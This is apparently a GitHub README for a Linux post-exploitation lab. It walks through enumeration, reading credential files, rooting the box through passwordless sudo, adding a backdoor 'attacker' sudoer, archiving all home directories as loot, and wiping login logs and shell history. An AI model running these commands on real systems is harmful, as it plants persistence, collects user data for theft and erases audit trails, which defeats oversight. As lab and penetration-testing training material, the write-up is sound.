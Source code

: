# Linux Privilege Escalation & Post-Exploitation Project

This project demonstrates a **realistic post-exploitation scenario** on a Linux machine after gaining initial access (e.g., via Metasploit). The goal was to escalate privileges, maintain access, exfiltrate data, and clean up traces — using only built-in Linux tools in a **controlled lab environment**.

## 🔍 Overview

Once access to the target system was obtained (via Metasploit or any other method), I carried out the following steps:
- 🔎 System Enumeration  
- 🔐 Privilege Escalation  
- 🛠️ Persistence (Backdoor User)  
- 🗃️ Data Exfiltration  
- 🧹 Log Cleanup & Anti-Forensics

---

## 🚀 Step-by-Step Execution

### 🧠 Step 1: Initial System Enumeration

```bash
uname -a
ip a
whoami
env
````

📝 Purpose: Get OS info, network interfaces, current privileges, and environment variables.

![Host Discovery](screenshots/screen1.png)

---

### 🔐 Step 2: Checking Sensitive Files

```bash
cat /etc/passwd
cat /etc/shadow
```

> /etc/passwd was readable by the current user.
> Access to /etc/shadow was denied, confirming lack of root access at this stage.
![Host Discovery](screenshots/screen2.png)
---

### 🔎 Step 3: Search for SUID Binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

📝 These files can be potential vectors for local privilege escalation.
![Host Discovery](screenshots/screen3.png)
---

### 🔑 Step 4: Sudo Rights Enumeration

```bash
sudo -l
```

The output revealed that the current user had the ability to run all commands as root without a password (NOPASSWD:ALL), which made privilege escalation trivial.
![Host Discovery](screenshots/screen4.png)
---

### 📈 Step 5: Gaining Root Access & Persistence

```bash
sudo su
useradd attacker -m -s /bin/bash
echo 'attacker:password123' | chpasswd
echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

📌 I escalated privileges to root and created a new user attacker with full sudo rights for persistent access.
![Host Discovery](screenshots/screen5.png)
---

### 💼 Step 6: Switch to Attacker User and Confirm Privileges

```bash
su - attacker
sudo whoami
```
📌 I verified that the attacker user had root privileges.
Expected Output:

```
root
```

✅ Root access confirmed through newly added user.
![Host Discovery](screenshots/screen6.png)
---
---

### 🗃️ Step 7: Data Exfiltration 

```bash
tar -czvf /tmp/loot.tar.gz /home
```

📌 This command compresses all home directory data into a .tar.gz file for potential exfiltration.
![Host Discovery](screenshots/screen7.png)
---

### 🧹 Step 8: Covering Tracks

```bash
> /var/log/wtmp
> /var/log/btmp
> /root/.bash_history
```

📌 These actions remove evidence of login activity and command history.
![Host Discovery](screenshots/screen8.png)
---

## 📘 Real-World Application

This lab demonstrates a realistic post-exploitation workflow after compromising a Linux machine. In real-world penetration testing engagements, such activities are typically used to:

* Validate the **impact of a vulnerability**
* Show **risk to client assets**
* Help **clients understand and fix** weak configurations or poor practices

---

## 🛠️ Tools Used

* Metasploit (for initial access)
* Linux terminal utilities (`sudo`, `find`, `tar`, useradd)
* Kali Linux (as a attacker machine)

